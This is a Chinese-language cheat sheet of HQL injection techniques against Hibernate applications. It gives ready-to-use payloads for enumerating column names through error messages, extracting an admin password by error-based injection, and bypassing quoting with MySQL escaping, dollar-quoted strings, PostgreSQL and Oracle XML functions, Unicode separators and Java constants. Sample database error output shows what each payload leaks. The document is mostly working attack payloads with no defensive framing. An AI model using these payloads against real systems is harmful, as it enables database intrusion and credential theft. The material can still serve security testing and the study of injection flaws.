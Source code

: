 ## 查询语句

### 列出列值
```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%'--
  and published = true
```

使用不存在的列将引发泄漏多个列名称的异常

```bash
org.hibernate.exception.SQLGrammarException: Column "DOESNT_EXIST" not found; SQL statement:
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

### 报错注入

1.
```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

2.
```sql
Data conversion error converting "d41d8cd98f00b204e9800998ecf8427e"; SQL statement:
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

### 单引号转义

该方法适用于 MySQL DBMS，它使用 SLASH 转义字符串中的单引号\'.

在 HQL 中，单引号在字符串中通过加倍转义.
```sql
'abc\''or 1=(select 1)--'
```

在HQL中它是一个字符串，在MySQL中它是一个字符串和附加的SQL表达式。

### $引用字符串

该方法适用于允许在 SQL 表达式中使用 DOLLAR-QUOTED 字符串的 DBMS：PostgreSQL、H2。

Hibernate ORM 允许$$.
```sql
$$='$$=concat(chr(61),chr(39)) and 1=1--'
```

### DBMS魔法函数

该方法适用于具有魔法函数功能的 DBMS，这些功能可以评估字符串参数中的 SQL 表达式：PostgreSQL、Oracle。

Hibernate 允许在 HQL 表达式中指定任何函数名称。

PostgreSQL 有内置函数query_to_xml('Arbitrary SQL').
```sql
array_upper(xpath('row',query_to_xml('select 1 where 1337>1', true, false,'')),1)
```

Oracle有内置函数DBMS_XMLGEN.getxml('SQL')
```sql
NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 where 1337>1')),'1')!='1'
```

### Unicode

该方法适用于允许在 SQL 标记之间使用 UNICODE 分隔符（例如 U+00A0）的 DBMS：Microsoft SQL Server、H2。

在 Microsoft SQL SERVER 中，SELECT LEN([U+00A0](select[U+00A0](1))原理与SELECT LEN((SELECT(1)));一样

HQL 允许在标识符（函数或参数名称）中使用 UNICODE 符号。

```sql
SELECT p FROM hqli.persistent.Post p where p.name='dummy' or 1<LEN( (select top 1 name from users)) or '1'='11'
```

### Java常量

该方法适用于大多数 DBMS（不适用于 MySQL）。

Hibernate 解析 HQL 查询中的 Java 公共静态字段（Java 常量）：

> + 具有 Java 常量的类必须位于类路径中
> + 例如java.lang.Character.SIZE解析为16
> + 字符串或字符常量另外用单引号括起来

要使用 JAVA CONSTANTS 方法，我们需要在类路径上的类或接口中声明特殊的字符或字符串字段.
```sql
public class Constants {
    public static final String S_QUOTE = "'";
    public static final String HQL_PART = "select * from Post where name = '";
    public static final char C_QUOTE_1 = '\'';
    public static final char C_QUOTE_2 = '\047';
    public static final char C_QUOTE_3 = 39;
    public static final char C_QUOTE_4 = 0x27;
    public static final char C_QUOTE_5 = 047;
}
```

Java 库中的一些可用常量：
```bash
org.apache.batik.util.XMLConstants.XML_CHAR_APOS         [ Apache Batik ]
com.ibm.icu.impl.PatternTokenizer.SINGLE_QUOTE           [ ICU4J ]
jodd.util.StringPool.SINGLE_QUOTE                        [ Jodd ]
ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR      [ Logback ]
cz.vutbr.web.csskit.OutputUtil.STRING_OPENING            [ jStyleParser ]
com.sun.java.help.impl.DocPConst.QUOTE                   [ JavaHelp ]
org.eclipse.help.internal.webapp.utils.JSonHelper.QUOTE  [ EclipseHelp ]
```

例如：

```sql
dummy' and hqli.persistent.Constants.C_QUOTE_1*X('<>CHAR(41) and (select count(1) from sysibm.sysdummy1)>0 --')=1 and '1'='1
```
